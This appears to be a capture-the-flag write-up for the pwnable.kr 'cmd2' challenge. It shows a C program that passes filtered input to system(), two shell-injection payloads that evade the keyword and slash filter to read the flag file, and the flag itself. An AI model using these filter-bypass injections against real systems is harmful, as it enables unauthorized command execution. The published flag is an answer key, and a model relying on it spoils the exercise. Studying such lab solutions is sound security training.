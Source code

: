 ```yaml
---
title: "Binary Exploitation | Pwnable.kr - cmd2"
permalink: "binary-exploitation/pwnablekr/:title"
layout: post
---
```


> Challenge description:
>
> Daddy bought me a system command shell.
> but he put some filters to prevent me from playing with it without his permission...
> but I wanna play anytime I want!



```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	printf("before:   %s\n", argv[1]);
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

This challenge has more restrictions, the biggest one is filtering forward slash `/`, this will prevent us from executing any binary the usual way like this `/bin/binary`.

The only solution that worked with me is passing the octal value of `/` (57) to printf with format string `%b`. 

# Solution:

```
cmd2@pwnable:~$ ./cmd2 '$(printf "%bbin%bcat %s%s" "\57" "\57" "fl" "ag")'
```

```
cmd2@pwnable:~$ ./cmd2 '$(read x; echo $x)'	# not my solution but it's very cool
/bin/cat flag
```

Flag: `FuN_w1th_5h3ll_v4riabl3s_haha`